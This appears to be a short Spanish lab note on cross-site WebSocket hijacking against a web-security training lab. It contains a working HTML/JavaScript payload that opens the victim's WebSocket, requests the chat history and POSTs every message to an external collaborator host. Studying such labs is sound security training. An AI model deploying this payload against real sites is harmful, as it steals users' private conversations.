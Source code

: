 ```yaml
---
layout: default
title: 2 - Cross-site WebSocket hijacking
---
```

Enviar un  READY parece ser que responde con todo el historial del chat, la idea sería montar un CSRF versión websockets para robarle el chat a la otra persona que esté detrás

```html
<script>
    var ws = new WebSocket('wss://0a8200d60458e9a6807c03f3005c009e.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://fveoqfwor0bb86jxjhmi28rqmhscg44t.oastify.com', {method: 'POST', body: event.data});
    };
</script>
```
